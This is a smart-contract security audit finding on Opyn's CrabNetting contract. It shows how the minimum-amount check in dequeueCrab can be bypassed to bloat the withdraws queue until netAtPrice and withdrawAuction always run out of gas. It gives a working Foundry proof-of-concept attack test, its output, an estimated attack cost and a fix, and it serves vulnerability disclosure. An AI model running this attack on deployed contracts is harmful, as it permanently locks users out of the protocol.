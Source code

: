 KingNFT

medium

# The 'withdraws' queue is susceptible to DDoS attack

## Summary
The 'minCrabAmount' constraint can be bypassed, causes the 'withdraws' queue is susceptible to DDoS attack.
After the attack, the contract will be unavailable and can not be recovered.

## Vulnerability Detail
The vulnerability point:
```solidity
function dequeueCrab(uint256 _amount) external {
    require(!isAuctionLive, "auction is live");
    crabBalance[msg.sender] = crabBalance[msg.sender] - _amount;
    require(
        crabBalance[msg.sender] >= minCrabAmount || crabBalance[msg.sender] == 0,
        "remaining amount smaller than minimum, consider removing full balance"
    );
    uint256 toRemove = _amount;
    uint256 lastIndexP1 = userWithdrawsIndex[msg.sender].length;
    for (uint256 i = lastIndexP1; i > 0; i--) {
        Receipt storage r = withdraws[userWithdrawsIndex[msg.sender][i - 1]]; 
        if (r.amount > toRemove) {
            r.amount -= toRemove;
            // @audit miss check: require(r.amount >= minCrabAmount);
            toRemove = 0;
            break;
        } else {
            toRemove -= r.amount;
            delete withdraws[userWithdrawsIndex[msg.sender][i - 1]];
        }
    }
    IERC20(crab).transfer(msg.sender, _amount);
    emit CrabDeQueued(msg.sender, _amount, crabBalance[msg.sender]);
}
```

Exploit it to execute DDos attack:
Put the following test case to DDosAttackOnWithdrawsQueue.t.sol file of test directory
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.17;

import "forge-std/Test.sol";
import {BaseForkSetup} from "./BaseForkSetup.t.sol";

contract DDosAttackOnWithdrawsQueue is BaseForkSetup {
    uint256 internal attackerPk;
    address internal attacker;

    function setUp() public override {
        BaseForkSetup.setUp();
        attackerPk = 0xB11CE;
        attacker = vm.addr(attackerPk);
        vm.label(attacker, "attacker");
        vm.deal(attacker, 1e18);

        vm.prank(0x06CECFbac34101aE41C88EbC2450f8602b3d164b);
        crab.transfer(withdrawer, 1e18);

        vm.prank(0x57757E3D981446D585Af0D9Ae4d7DF6D64647806);
        usdc.transfer(depositor, 20e6);

        vm.prank(0x06CECFbac34101aE41C88EbC2450f8602b3d164b);
        crab.transfer(attacker, 1e18);
    }

    function testDDosAttackOnWithdrawsQueue() public {
        netting.setMinCrab(1e16);
        vm.startPrank(attacker);
        crab.approve(address(netting), type(uint256).max);
        netting.queueCrabForWithdrawal(1e16);
        for (uint256 i; i < 3200; ++i) {
            // @audit bypass miminum queue amount requirement
            netting.queueCrabForWithdrawal(1e16 + 1);
            netting.dequeueCrab(1e16);
        }
        vm.stopPrank();
        _testForkTestNetAtPrice();
    }

    // @audit a success test case from ForkTestNetAtPrice.sol in normal scene
    // @audit but it will fail while there is a DDoS attack on deposits queue
    function _testForkTestNetAtPrice() public {
        vm.startPrank(depositor);
        usdc.approve(address(netting), 17e6);
        netting.depositUSDC(17e6);
        vm.stopPrank();

        vm.startPrank(withdrawer);
        crab.approve(address(netting), 1e18);
        netting.queueCrabForWithdrawal(1e18);
        vm.stopPrank();

        assertEq(usdc.balanceOf(withdrawer), 0);
        assertEq(crab.balanceOf(depositor), 0);
        uint256 priceToNet = 1336290000;
        uint256 quantityToNet = 16840842;
        
        vm.expectRevert(); // @audit revert due to exceed max allowed gas of block
        uint256 gasBefore = gasleft();
        netting.netAtPrice{gas: 30_000_000}(priceToNet, quantityToNet);
        uint256 gasAfter = gasleft();
        console.log("gas used:", gasBefore - gasAfter);


        /*
        assertApproxEqAbs(usdc.balanceOf(withdrawer), quantityToNet, 1); // withdrawer gets that amount
        uint256 crabReceived = (quantityToNet * 1e18) / priceToNet;
        assertEq(crab.balanceOf(depositor), crabReceived); // depositor gets 0.01265755 crab
        assertEq(netting.crabBalance(withdrawer), 1e18 - crabReceived); // ensure crab remains
        */
    }
}

```

And run
```solidity
forge test --match-test testDDosAttackOnWithdrawsQueue -vv
```

Result
```solidity
Running 1 test for test/DDosAttackOnWithdrawsQueue.t.sol:DDosAttackOnWithdrawsQueue
[PASS] testDDosAttackOnWithdrawsQueue() (gas: 246021642)
Logs:
  gas used: 29998292

Test result: ok. 1 passed; 0 failed; finished in 1.62s
```

Attack gas cost is about
```solidity
1 ~ 2 ETH
```

## Impact
The following functions will always revert after the attack
```solidity
function netAtPrice(uint256 _price, uint256 _quantity) external;
function withdrawAuction(WithdrawAuctionParams calldata _p) public;
```

## Code Snippet
https://github.com/sherlock-audit/2022-11-opyn/blob/main/crab-netting/src/CrabNetting.sol#L323

## Tool used

Manual Review

## Recommendation
```solidity
function dequeueCrab(uint256 _amount) external {
    // ...
    for (uint256 i = lastIndexP1; i > 0; i--) {
        Receipt storage r = withdraws[userWithdrawsIndex[msg.sender][i - 1]]; 
        if (r.amount > toRemove) {
            r.amount -= toRemove;
            require(r.amount >= minCrabAmount, "invalid dequeue amount"); // @fix
            toRemove = 0;
            break;
        } else {
            // ...
        }
    }
    // ...
}
```
